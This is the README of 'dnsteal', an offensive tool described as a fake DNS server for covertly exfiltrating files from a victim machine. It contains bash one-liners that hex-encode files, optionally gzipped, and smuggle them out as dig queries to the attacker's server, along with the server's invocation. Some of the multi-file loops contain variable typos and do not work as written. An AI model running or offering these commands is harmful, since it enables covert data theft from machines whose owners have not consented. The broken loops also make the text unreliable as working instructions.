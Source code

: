 # dnsteal 

* REBUILD compatible with Python3

This is a fake DNS server that allows you to stealthily extract files from a victim machine through DNS requests. 

Below is an image showing an example of how to use:

![Alt text](./dns-hijacking.webp)

On the victim machine, you simply can do something like so:

```bash
for b in $(xxd -p file/to/send.png); do dig @server $b.filename.com; done
```

**Support for multiple files**

```bash
for filename in $(ls); do for b in $(xxd -p $f); do dig +short @server %b.$filename.com; done; done
```

**gzip compression supported**

It also supports compression of the file to allow for faster transfer speeds, this can be achieved using the "-z" switch:

```bash
python dnsteal.py 127.0.0.1 -z
```

Then on the victim machine send a Gzipped file like so:

```bash
for b in $(gzip -c file/to/send.png | xxd -p); do dig @server $b.filename.com; done
```

or for multiple, gzip compressed files:

```bash
for filename in $(ls); do for b in $(gzip -c $filename | xxd -p); do dig +short @server %b.$filename.com; done; done
```

~x90
